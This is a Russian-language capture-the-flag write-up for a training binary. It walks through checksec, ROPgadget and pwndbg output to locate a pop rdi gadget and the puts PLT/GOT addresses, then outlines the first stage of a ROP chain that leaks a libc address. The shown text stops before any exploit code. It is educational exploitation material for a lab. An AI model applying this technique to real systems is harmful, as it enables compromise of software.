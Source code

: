 # WRITEUP.md

### Description

Простая таска на использование техники с `ROP` гаджетам цепачками.

### Solition


#### Step 1 - Проверка средс безопасности - checksec

Смотрим какие средства безопасности были использованы при комплияции бинаря, для этого используется утилита `checksec`:

![](img/img1.png)

```bash
$ checksec --file=main
[*] '/home/luksa/git/BugHunters_Lab/pwn-sprush/tasks/03-static-rop/app/main'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

#### Step 2 - Получаем адрес POP RDI

Узнаем адрес `pop rdi; ret`, есть 2 варианта:
- использовать утилиту `ROPgadget`;
- использовать `gdbpwn`;

Первый вариант, используем `ROPgadget`:

![](img/img2.png)
![](img/img3.png)

```bash
$ ROPgadget --binary ./main

Gadgets information
============================================================
0x0000000000401057 : add al, byte ptr [rax] ; add byte ptr [rax], al ; jmp 0x401020
0x00000000004010bb : add bh, bh ; loopne 0x401125 ; nop ; ret
0x0000000000401037 : add byte ptr [rax], al ; add byte ptr [rax], al ; jmp 0x401020
< ... SKIP ... >

0x00000000004010b6 : or dword ptr [rdi + 0x404028], edi ; jmp rax
0x000000000040112d : pop rbp ; ret
0x000000000040114a : pop rdi ; ret

< ... SKIP ... >

Unique gadgets found: 64
```

Второй вариант, используем `gdbpwn`:

![](img/img4.png)

```c
└─$ gdb-pwndbg main
Reading symbols from main...
(No debugging symbols found in main)
pwndbg> 
pwndbg> x/32i ROP
   0x401146 <ROP>:	push   rbp
   0x401147 <ROP+1>:	mov    rbp,rsp
   0x40114a <ROP+4>:	pop    rdi
   0x40114b <ROP+5>:	ret
   0x40114c <ROP+6>:	nop
   0x40114d <ROP+7>:	pop    rbp
   0x40114e <ROP+8>:	ret
   0x40114f <func>:     push   rbp
   0x401150 <func+1>:	mov    rbp,rsp
   0x401153 <func+4>:	sub    rsp,0x20
   0x401157 <func+8>:	lea    rax,[rbp-0x20]
   0x40115b <func+12>:	mov    edx,0x100
   0x401160 <func+17>:	mov    rsi,rax
   0x401163 <func+20>:	mov    edi,0x0
   0x401168 <func+25>:	call   0x401040 <read@plt>

```

Получем адрес `pop_rdi = 0x40114a`


#### Step 3 - Получем адреса puts@plt / puts@got.plt

Требуется получить адреса puts@plt и puts@got.plt, для этого выполняем:
 1. выполняем `info functions`
 2. извлекаем адрес обертки `puts@plt`
 3. извлекаем адрес `puts@got.plt` где должен лежать `libc.so`

![](img/img5.png)

```c
pwndbg> info functions 
All defined functions:

Non-debugging symbols:
0x0000000000401000  _init
0x0000000000401030  puts@plt
0x0000000000401040  read@plt
0x0000000000401050  setvbuf@plt
0x0000000000401060  _start
0x0000000000401090  _dl_relocate_static_pie
0x00000000004010a0  deregister_tm_clones
0x00000000004010d0  register_tm_clones
0x0000000000401110  __do_global_dtors_aux
0x0000000000401140  frame_dummy
0x0000000000401146  ROP
0x000000000040114f  func
0x0000000000401170  main
0x00000000004011d0  _fini
pwndbg> x/8i 0x0000000000401030
   0x401030 <puts@plt>:	        jmp    QWORD PTR [rip+0x2fca]   # 0x404000 <puts@got.plt>
   0x401036 <puts@plt+6>:	    push   0x0
   0x40103b <puts@plt+11>:	    jmp    0x401020
   0x401040 <read@plt>:	        jmp    QWORD PTR [rip+0x2fc2]   # 0x404008 <read@got.plt>
   0x401046 <read@plt+6>:	    push   0x1
   0x40104b <read@plt+11>:	    jmp    0x401020
   0x401050 <setvbuf@plt>:	    jmp    QWORD PTR [rip+0x2fba]   # 0x404010 <setvbuf@got.plt>
   0x401056 <setvbuf@plt+6>:    push   0x2

```

Получаем адреса:
 - puts@plt = 0x401030
 - puts@got.plt = 0x404000

#### Step 4 - первая честь эксплойта

В вашем коде используется 64-битный calling convention, где первый аргумент передаётся через регистр RDI. Цепочка ROP должна:

 1. Положить адрес (в данном случае адрес GOT записи для puts) в RDI
 2. Вызвать puts@plt (который выведет значение по этому адресу)
 3. Вернуться в main для второго этапа эксплойта
